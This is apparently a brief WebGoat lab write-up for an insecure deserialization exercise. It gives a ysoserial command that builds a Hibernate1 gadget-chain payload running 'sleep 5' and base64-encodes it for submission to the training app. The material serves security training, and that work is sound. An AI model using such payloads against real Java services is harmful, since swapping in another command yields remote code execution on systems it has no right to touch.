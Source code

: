 # Insecure Deserialization
## Insecure Deserialization
### Number 5

![Exercise](https://github.com/AlessandroMorelli96/WebGoat/blob/master/images/08_01.png)

Clone [ysoserial](https://github.com/frohoff/ysoserial) and run:

```
java -jar ysoserial.jar Hibernate1 "sleep 5" | base64 -w0 
```
